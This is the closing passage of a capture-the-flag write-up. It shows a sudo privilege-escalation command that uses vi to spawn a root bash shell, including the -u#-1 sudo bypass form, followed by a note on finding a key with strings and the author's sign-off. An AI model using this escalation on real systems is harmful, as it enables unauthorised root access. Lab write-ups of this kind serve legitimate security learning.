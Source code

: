 ```bash
sudo -u#-1 /usr/bin/vi -c ':!/bin/bash' /dev/null
```

Somehow it didn't work, but if we removed `-u#-1` we become root.

![](12.png)

The key can be found on http://{Target_ip}/key_rev_key, we run `strings` on the executable and find the key.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
